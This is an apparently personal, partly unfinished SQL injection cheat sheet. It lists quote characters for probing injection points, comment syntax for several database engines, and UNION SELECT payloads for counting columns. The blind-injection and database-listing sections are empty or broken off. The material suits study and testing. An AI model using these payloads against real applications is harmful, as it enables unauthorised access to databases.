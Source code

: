 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
> If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get databases**:




## Blind SQLi
If you cant see the output of your SQL query then this is the way to go ╰(*°▽°*)╯


**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out
- 
**What other options are there?**
Out-of-band SQLi
I don't have access to burp collaborator so this is out of the question with the resources I have at the moment
- 